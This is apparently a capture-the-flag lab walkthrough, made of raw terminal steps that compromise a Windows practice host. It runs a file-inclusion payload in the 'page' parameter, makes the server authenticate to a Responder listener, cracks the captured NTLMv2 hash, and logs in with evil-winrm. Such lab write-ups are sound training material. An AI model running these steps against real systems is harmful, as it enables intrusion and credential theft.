




└─$ nmap -sC -sV -p- -T5 -vv 10.129.60.106
Completed NSE at 21:46, 0.00s elapsed
Nmap scan report for 10.129.60.106
Host is up, received syn-ack (0.036s latency).
Scanned at 2023-09-07 21:42:21 CEST for 276s
Not shown: 65533 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
5985/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
└─$ curl http://10.129.60.106
meta http-equiv="refresh" content="0;url=http://unika.htb/"
└─$ sudo nano /etc/hosts
27.0.0.1 localhost
127.0.1.1 kali
10.129.60.106 unika.htb
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
└─$ grep unika.htb /etc/hosts
10.129.60.106 unika.htb
ctrl + u : observe html code of page to see ...
Scripting language used on server to generate pages: php
URL parameter used to laod different language for website : page
http://unika.htb/index.php?page=../../../../../../../..
Unika Local File Include (LFI) vulnerability exploit using page parameter
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
due to the include() function in PHP
Unika Remote File Include (RFI) vulnerability exploit using page parameter
//10.10.14.6/somefile
Continued using Responder!
NTLM : New Technology LAN Manager
Task is to capture NTLM hash of admin using Responder !
While listening on responder, access webpage : http://unika.htb/?page=//10.10.16.91/wink
└─$ git clone https://github.com/lgandx/Responder
Cloning into 'Responder'...
remote: Enumerating objects: 2212, done.
remote: Counting objects: 100% (591/591), done.
remote: Compressing objects: 100% (196/196), done.
remote: Total 2212 (delta 455), reused 397 (delta 395), pack-reused 1621
Receiving objects: 100% (2212/2212), 2.52 MiB | 11.80 MiB/s, done.
Resolving deltas: 100% (1415/1415), done.
└─$ cd Responder
└─$ sudo python Responder.py -I tun0
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
NBT-NS, LLMNR & MDNS Responder 3.1.3.0
To support this project:
Patreon -> https://www.patreon.com/PythonResponder
Paypal -> https://paypal.me/PythonResponder
Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CTRL-C
[+] Poisoners:
LLMNR [ON]
NBT-NS [ON]
MDNS [ON]
DNS [ON]
DHCP [OFF]
[+] Servers:
HTTP server [ON]
HTTPS server [ON]
WPAD proxy [OFF]
Auth proxy [OFF]
SMB server [ON]
Kerberos server [ON]
SQL server [ON]
FTP server [ON]
IMAP server [ON]
POP3 server [ON]
SMTP server [ON]
DNS server [ON]
LDAP server [ON]
MQTT server [ON]
RDP server [ON]
DCE-RPC server [ON]
WinRM server [ON]
SNMP server [OFF]
[+] HTTP Options:
Always serving EXE [OFF]
Serving EXE [OFF]
Serving HTML [OFF]
Upstream Proxy [OFF]
[+] Poisoning Options:
Analyze Mode [OFF]
Force WPAD auth [OFF]
Force Basic Auth [OFF]
Force LM downgrade [OFF]
Force ESS downgrade [OFF]
[+] Generic Options:
Responder NIC [tun0]
Responder IP [10.10.16.91]
Responder IPv6 [dead:beef:4::1059]
Challenge set [random]
Don't Respond To Names ['ISATAP', 'ISATAP.LOCAL']
[+] Current Session Variables:
Responder Machine Name [WIN-PPW8628AGKZ]
Responder Domain Name [IRP4.LOCAL]
Responder DCE-RPC Port [47273]
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.60.106
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::RESPONDER:881f3c49194a0de3:2A4A26AAFFB6548CA7C526E0039E1022:0101000000000000009A3002DAE1D90103FF57E974292D0D0000000002000800490052005000340001001E00570049004E002D005000500057003800360032003800410047004B005A0004003400570049004E002D005000500057003800360032003800410047004B005A002E0049005200500034002E004C004F00430041004C000300140049005200500034002E004C004F00430041004C000500140049005200500034002E004C004F00430041004C0007000800009A3002DAE1D90106000400020000000800300030000000000000000100000000200000AF4542BA61543D0917B2E733DA7E4D9B633097A9FD7213FC9158FB823F2B5EDD0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390031000000000000000000

Use John the Ripper to crack the password using the hash!
NetNTLMv2 challenge/response taken as input, tries millions of pw, and generates response
└─$ echo "Administrator::RESPONDER:881f3c49194a0de3:2A4A26AAFFB6548CA7C526E0039E1022:0101000000000000009A3002DAE1D90103FF57E974292D0D0000000002000800490052005000340001001E00570049004E002D005000500057003800360032003800410047004B005A0004003400570049004E002D005000500057003800360032003800410047004B005A002E0049005200500034002E004C004F00430041004C000300140049005200500034002E004C004F00430041004C000500140049005200500034002E004C004F00430041004C0007000800009A3002DAE1D90106000400020000000800300030000000000000000100000000200000AF4542BA61543D0917B2E733DA7E4D9B633097A9FD7213FC9158FB823F2B5EDD0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390031000000000000000000" > hash.txt
└─$ locate rockyou.txt
/usr/share/wordlists/rockyou.txt.gz
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password (Administrator)
1g 0:00:00:00 DONE (2023-09-07 22:32) 20.00g/s 204800p/s 204800c/s 204800C/s 123456..1asshole
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
$ evil-winrm -i 10.129.60.106 -u administrator -p password
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd /
*Evil-WinRM* PS C:\> cd Users
*Evil-WinRM* PS C:\Users> ls
Directory: C:\Users
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 3/9/2022 5:35 PM Administrator
d----- 3/9/2022 5:33 PM mike
d-r--- 10/10/2020 12:37 PM Public
*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir
Directory: C:\Users\mike\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 3/10/2022 4:50 AM 32 flag.txt
*Evil-WinRM* PS C:\Users\mike\Desktop> cat flag.txt
ea81b7afddd03efaa0945333ed147fac